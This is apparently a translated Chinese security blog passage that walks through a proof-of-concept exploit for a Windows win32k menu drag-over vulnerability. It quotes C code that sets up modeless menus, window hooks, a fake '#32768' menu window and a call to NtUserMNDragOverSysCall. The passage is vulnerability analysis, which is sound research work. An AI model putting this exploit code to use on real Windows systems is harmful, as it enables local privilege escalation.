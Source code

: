 首先，我们一起分析一下这份PoC代码。PoC代码首先要做的就是创建两个无模式拖放弹出菜单，即hMenuRoot和hMenuSub。hMenuRoot会被设置为主下拉菜单，并将hMenuSub设置为其子菜单。

<code>HMENU hMenuRoot = CreatePopupMenu();<br>
HMENU hMenuSub = CreatePopupMenu();<br>
...<br>
MENUINFO mi = `{` 0 `}`;<br>
mi.cbSize = sizeof(MENUINFO);<br>
mi.fMask = MIM_STYLE;<br>
mi.dwStyle = MNS_MODELESS | MNS_DRAGDROP;<br>
SetMenuInfo(hMenuRoot, &amp;mi);<br>
SetMenuInfo(hMenuSub, &amp;mi);<br>
AppendMenuA(hMenuRoot, MF_BYPOSITION | MF_POPUP, (UINT_PTR)hMenuSub, "Root");<br>
AppendMenuA(hMenuSub, MF_BYPOSITION | MF_POPUP, 0, "Sub");</code>

接下来，代码会使用SetWindowsHookEx()来在当前线程中设置一个钩子，即WH_CALLWNDPROC。这个钩子可以确保WindowHookProc()在一个窗口进程运行前执行。完成后，代码会调用SetWinEventHook()来设置一个事件钩子，并确保在弹出菜单显示出来时调用DisplayEventProc()。

<code>SetWindowsHookEx(WH_CALLWNDPROC, (HOOKPROC)WindowHookProc, hInst, GetCurrentThreadId());<br>
SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART,hInst,DisplayEventProc,GetCurrentProcessId(),GetCurrentThreadId(),0);</code>

下图显示的是设置WH_CALLWNDPROC钩子之前和之后的Windows消息调用流程：

[![](https://p4.ssl.qhimg.com/t017a74486ef2439d86.jpg)](https://p4.ssl.qhimg.com/t017a74486ef2439d86.jpg)

钩子设置完后，代码会使用CreateWindowA()和类字符串“#32768”来创建hWndFakeMenu窗口。以这种方式创建窗口会导致CreateWindowA()在窗口对象中设置多个值为0或NULL的数据域，因为CreateWindowA()并不知道如何去填充这些数据。其中，跟漏洞利用有关的重要数据域为spMenu域，它也会被设置为NULL。

`hWndFakeMenu = CreateWindowA("#32768", "MN", WS_DISABLED, 0, 0, 1, 1, nullptr, nullptr, hInst, nullptr);`

接下来，代码会使用CreateWindowA()和窗口类wndClass来创建hWndMain。这将会给hWndMain的窗口进程设置DefWindowProc()，而这个函数是一个Windows API，主要负责处理窗口无法处理的那些窗口消息。

CreateWindowA()的参数还可以确保hWndMain在“禁用模式”下被创建，并且不会从终端用户那里接收任何的键盘或鼠标输入，但是仍然可以从其他窗口、系统或应用程序来接收窗口消息，这样可以防止用户与窗口进行意外交互。CreateWindowA()的最后一个参数可以确保窗口位置固定在(0x1, 0x1)，具体如下列代码所示：



```
WNDCLASSEXA wndClass = `{` 0 `}`;
wndClass.cbSize = sizeof(WNDCLASSEXA);
wndClass.lpfnWndProc = DefWindowProc;
wndClass.cbClsExtra = 0;
wndClass.cbWndExtra = 0;
wndClass.hInstance = hInst;
wndClass.lpszMenuName = 0;
wndClass.lpszClassName = “WNDCLASSMAIN”;
RegisterClassExA(&amp;wndClass);
hWndMain = CreateWindowA(“WNDCLASSMAIN”, “CVE”, WS_DISABLED, 0, 0, 1, 1, nullptr, nullptr, hInst, nullptr);
TrackPopupMenuEx(hMenuRoot, 0, 0, 0, hWndMain, NULL);

MSG msg = `{` 0 `}`;
while (GetMessageW(&amp;msg, NULL, 0, 0))
`{`
TranslateMessage(&amp;msg);
DispatchMessageW(&amp;msg);
if (iMenuCreated &gt;= 1) `{`
bOnDraging = TRUE;
callNtUserMNDragOverSysCall(&amp;pt, buf);
break;
`}`
`}`
```
